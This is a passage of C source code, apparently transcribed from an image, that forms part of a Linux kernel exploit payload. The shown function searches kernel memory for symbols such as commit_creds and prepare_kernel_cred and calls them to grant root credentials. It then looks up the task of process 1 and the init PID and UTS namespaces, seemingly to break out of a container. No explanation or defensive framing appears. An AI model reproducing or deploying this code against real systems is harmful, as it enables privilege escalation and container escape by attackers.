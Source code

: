 ```c
            }
        }
    }

    return 0;
}

#define find_max (0x2000000)
void *main_start(void *start_pos) {

    // first, get root
    typedef void *(*typ_prepare_kernel_cred)(size_t);
    typedef int (*typ_commit_creds)(void *);

    char str_commit_creds[] = "commit_creds";
    typ_commit_creds ptr_commit_creds = (typ_commit_creds)get_ptr(find_symtab(start_pos, find_max, str_commit_creds, sizeof(str_commit_creds)));
    if (!ptr_commit_creds) {
        return 0;
    }

    char str_prepare_kernel_cred[] = "prepare_kernel_cred";
    typ_prepare_kernel_cred ptr_prepare_kernel_cred = (typ_prepare_kernel_cred)get_ptr(find_symtab(start_pos, find_max, str_prepare_kernel_cred, sizeof(str_prepare_kernel_cred)));
    if (!ptr_prepare_kernel_cred) {
        return 0;
    }

    ptr_commit_creds(ptr_prepare_kernel_cred(0));

    // then find init_nsproxy and pid1 task_struct
    typedef void *(*typ_find_vpid)(size_t);
    typedef void *(*typ_pid_task)(void *, size_t);

    char str_find_vpid[] = "find_vpid";
    typ_find_vpid fptr_find_vpid = (typ_find_vpid)get_ptr(find_symtab(start_pos, find_max, str_find_vpid, sizeof(str_find_vpid)));
    if (!fptr_find_vpid) {
        return 0;
    }

    char str_pid_task[] = "pid_task";
    typ_pid_task fptr_pid_task = (typ_pid_task)get_ptr(find_symtab(start_pos, find_max, str_pid_task, sizeof(str_pid_task)));
    if (!fptr_pid_task) {
        return 0;
    }

    char *task = fptr_pid_task(fptr_find_vpid(1), 0);

    char str_init_pid_ns[] = "init_pid_ns";
    char *ptr_init_pid_ns = get_ptr(find_symtab(start_pos, find_max, str_init_pid_ns, sizeof(str_init_pid_ns)));
    if (!ptr_init_pid_ns) {
        return 0;
    }

    char str_init_uts_ns[] = "init_uts_ns";
    char *ptr_init_uts_ns = get_ptr(find_symtab(start_pos, find_max, str_init_uts_ns, sizeof(str_init_uts_ns)));
    if (!ptr_init_uts_ns) {
        return 0;
    }
```